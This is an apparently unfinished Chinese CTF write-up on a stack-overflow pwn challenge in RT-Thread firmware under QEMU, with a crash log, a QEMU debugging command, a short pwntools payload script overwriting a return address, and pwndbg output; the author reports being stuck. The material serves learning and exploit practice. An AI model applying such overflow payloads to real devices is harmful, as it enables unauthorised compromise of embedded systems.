 ```yaml
---
title: XUNCA 2020 rtos
date: 2020-11-22 00:00:00
categories:
- CTF/Pwn
tags: rtos 
---
```


> 卡住了...更新中...rt-thread的main函数栈溢出，不用getshell，ROP/shellcode读出根目录下的flag即可：

题目附件，最开始没符号，后来因为零解，然后放了有符号版，比赛最后服务器段的pow也直接去掉了：

- [rtos_no_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_no_symbols.zip)
- [rtos_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_symbols.zip)

## 开发尝试

- [rt-thread 源码仓库](https://github.com/RT-Thread/rt-thread)
- [rt-thread 文档中心](https://www.rt-thread.org/document/site/)
- [rt-thread qemu入门指南](https://github.com/RT-Thread/rtthread-manual-doc/blob/master/documentation/quick_start_qemu/quick_start_qemu_linux.md)

编译方法非常简单，进`/rt-thread/bsp/qemu-vexpress-a9/`，然后执行`scons`即可编译。业务代码可以修改`/rt-thread/bsp/qemu-vexpress-a9/applications/main.c`，尝试直接输出flag：

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <dfs_posix.h> 

int main(void)
{
	char a[0x64];
	int fd;
    fd = open("/flag",O_RDONLY);
    read(fd,a,0x64);
    puts(a);
    return 0;
}
```

需要在sd卡中新建flag，可以进rt-thread后新建，也可以是用linux直接挂载文件系统新建

## 题目漏洞

> 一开始研究半天咋跟这玩意交互，直接qemu启动后，命令行里输入没有显示，后来发现使用文件加管道重定向给qemu可以获得比较正常的输入输出

就是个栈溢出，但是溢出点的数值不知道为啥被改了，看起来是数值加3：

```bash
$ python3 -c "print('1'*0x40)" | ./run.sh
WARNING: Image format was not specified for 'sd.bin' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
pulseaudio: set_sink_input_volume() failed
pulseaudio: Reason: Invalid argument
pulseaudio: set_sink_input_mute() failed
pulseaudio: Reason: Invalid argument
qemu-system-arm: warning: hub 0 is not connected to host network

 \ | /
- RT -     Thread Operating System
 / | \     4.0.3 build Oct 30 2020
 2006 - 2020 Copyright by rt-thread team
lwIP-2.0.2 initialized!
[I/sal.skt] Socket Abstraction Layer initialize success.
[I/SDIO] SD card capacity 65536 KB.
file system initialization done!
welcome to simple rtos pwn level 1

read 1111111111111111111111111111111111111111111111111111111111111111
byebye
prefetch abort:
Execption:
r00:0x00000000 r01:0x07860785 r02:0x00000786 r03:0x00000000
r04:0xdeadbeef r05:0xdeadbeef r06:0xdeadbeef r07:0xdeadbeef
r08:0xdeadbeef r09:0xdeadbeef r10:0xdeadbeef
fp :0x31313131 ip :0x01010101
sp :0x6009ce78 lr :0x60012cbc pc :0x31313134
cpsr:0x60000033
shutdown...
```

修改`run.sh`开始调试：

```bash
qemu-system-arm -M vexpress-a9 -smp cpus=2 \
	-kernel binary.bin \
	-nographic -sd sd.bin -net nic \
	-serial mon:stdio \
	-monitor /dev/null \
	-gdb tcp::1234 -S
```

但是如果输入包含`0x01`，就会发生奇怪额现象....

```python
from pwn import *
context(arch='arm',log_level='debug')

io = process(["bash","./run.sh"])
io.recvuntil("2006 - 2020 Copyright by rt-thread team") 
payload = 'A'*(0x20)
payload += p32(0x11223344) 
payload += p32(0x60012518)
io.sendline(payload)
io.interactive()
```

输入的`0x60012518`就会再过了scanf后直接在栈上变成`0x60002518`

```c
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x60012558    pop    {fp, pc}
    ↓
   0x60002518    andeq  r0, r0, r0
   0x6000251c    andeq  r0, r0, r0
   0x60002520    andeq  r0, r0, r0
   0x60002524    andeq  r0, r0, r0
   0x60002528    andeq  r0, r0, r0
   0x6000252c    andeq  r0, r0, r0
   0x60002530    andeq  r0, r0, r0
   0x60002534    andeq  r0, r0, r0
   0x60002538    andeq  r0, r0, r0
   0x6000253c    andeq  r0, r0, r0
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ sp   0x6009ce70 —▸ 0x11223344 ◂— 0
01:0004│ r11  0x6009ce74 —▸ 0x60002518 ◂— 0
02:0008│      0x6009ce78 —▸ 0xdeadbeef ◂— 0
03:000c│      0x6009ce7c ◂— 0
04:0010│      0x6009ce80 —▸ 0xdeadbeef ◂— 0
05:0014│      0x6009ce84 —▸ 0x6001ed64 ◂— push   {r4, fp, lr} /* 0xe92d4810 */
06:0018│      0x6009ce88 —▸ 0x23232323 ◂— 0
07:001c│      0x6009ce8c ◂— andeq  r1, r1, r0, lsr #29 /* 0x11ea0 */
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0 60012558
────────────────────────────────────────────────────────────────────────────────
Breakpoint * 0x60012558
pwndbg> 
```

进行不下去了...
